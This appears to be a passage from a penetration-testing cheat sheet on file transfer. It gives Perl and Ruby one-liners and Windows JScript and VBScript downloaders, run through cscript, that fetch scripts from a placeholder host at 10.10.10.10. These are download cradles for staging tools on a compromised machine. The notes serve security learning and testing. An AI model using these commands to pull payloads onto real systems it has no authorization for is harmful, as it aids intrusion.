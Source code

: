 {% tabs %}
{% tab title="PERL" %}
{% code overflow="wrap" %}
```bash
perl -e 'use LWP::Simple; getstore("https://10.10.10.10/script.sh", "script.sh");'
```
{% endcode %}
{% endtab %}

{% tab title="Ruby" %}
{% code overflow="wrap" %}
```bash
ruby -e 'require "net/http"; File.write("script.sh", Net::HTTP.get(URI.parse("https://10.10.10.10/script.sh")))'
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Windows

{% tabs %}
{% tab title="1. JS -> Create Script" %}
```javascript
# create a file called `wget.js`
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
{% endtab %}

{% tab title="2. CMD/PS -> Execute Script" %}
{% code overflow="wrap" %}
```powershell
# execute script
cscript.exe /nologo wget.js https://10.10.10.10/script.ps1 script.ps1
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. VBScript -> Create Script" %}
```vba
# create a file called `wget.vbs`
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
{% endtab %}
